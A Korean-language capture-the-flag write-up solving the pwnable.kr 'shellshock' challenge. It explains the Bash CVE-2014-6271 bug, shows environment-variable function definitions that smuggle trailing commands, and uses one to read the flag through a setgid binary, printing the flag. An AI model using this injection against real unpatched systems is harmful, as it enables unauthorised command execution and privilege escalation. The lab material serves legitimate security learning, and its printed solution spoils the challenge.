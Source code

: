 # [Toddler's Bottle] shellshock
shellshock에서 제공하는 글을 확인해보자.
```
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)
```
putty로 접속 해주자.

글에서 `shocking news about bash`라고 했으므로 Bash 취약점(CVE-2014-6271)에 대해 알아보자.

bash 취약점은  
`env x='() { :;}; echo vulnerable' bash -c "echo test"`를 실행해줌으로써 확인 할 수 있는 취약점인데

환경변수 설정을 하는 env 를 통해 환경변수 x = (함수명) {수행코드}; 라고 환경변수를 등록하는 ; 까지는 정상적인 동작이나,  
그 이후에 삽입되어 있는 echo vulnerable' bash -c "echo test" 명령어는 무시되거나 오류를 발생해야 하지만  
실제로는 수행이되어 다음과같이 test를 출력하는 것을 알 수 있습니다.
```
shellshock@ubuntu:~$ env x='() { :;}; echo vulnerable' bash -c "echo test"
env x='() { :;}; echo vulnerable' bash -c "echo test"
test
```
따라서 다음과 같이 환경변수를 만들어주고 `./bash`를 실행시켜보면
```
shellshock@ubuntu:~$ export hello='() { pwd; };pwd;id'
shellshock@ubuntu:~$ ./bash
/home/shellshock
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
shellshock@ubuntu:~$ export hello='() { pwd; };pwd;id'
shellshock@ubuntu:~$ ./bash
/home/shellshock
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
```
; 뒤에 명령어들이 실행되게 된다.

`shellshock.c`를 살펴보면
```
shellshock@ubuntu:~$ cat shellshock.c
cat shellshock.c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}

```
bash 자체의 취약점을 이용해서 업그레이드된 gid로 cat flag를 해준다면 flag를 읽을 수 있을 것이다.
```
shellshock@ubuntu:~$ export cat='() { pwd; }; /bin/cat flag'
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
shellshock@ubuntu:~$
```

